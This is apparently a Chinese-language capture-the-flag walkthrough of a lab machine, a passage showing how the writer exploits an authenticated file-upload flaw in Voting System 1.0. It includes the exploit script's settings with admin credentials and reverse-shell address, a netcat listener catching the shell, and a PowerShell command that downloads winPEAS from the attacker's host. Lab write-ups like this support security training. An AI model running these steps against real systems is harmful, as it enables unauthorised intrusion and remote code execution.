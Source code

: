 ![截图](de5e8c8839953683b79fe28851b057fe.png)

利用授权的RCE拿shell

```
Voting System 1.0 - File Upload RCE (Authenticated Remote Code Execution)           | php/webapps/49445.py
```

源代码需要编辑相关信息，以及修改路径

```
# --- Edit your settings here ----
IP = "10.10.10.239" # Website's URL
USERNAME = "admin" #Auth username
PASSWORD = "@LoveIsInTheAir!!!!" # Auth Password
REV_IP = "10.10.14.4" # Reverse shell IP
REV_PORT = "4444" # Reverse port
# --------------------------------

INDEX_PAGE = f"http://{IP}/admin/index.php"
LOGIN_URL = f"http://{IP}/admin/login.php"
VOTE_URL = f"http://{IP}/admin/voters_add.php"
CALL_SHELL = f"http://{IP}/images/shell.php"
```

执行以后收到反弹shell

```
root@kali# nc -lvnp 4444                                                                                               1 ⨯
listening on [any] 4444 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.239] 53219
b374k shell : connected

Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>whoami
whoami
love\phoebe
```

# 提权

## 传winpeas到靶机

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.4/winPEASx64.exe','c:\Users\Phoebe\Downloads\winPEASx64.exe')"
```
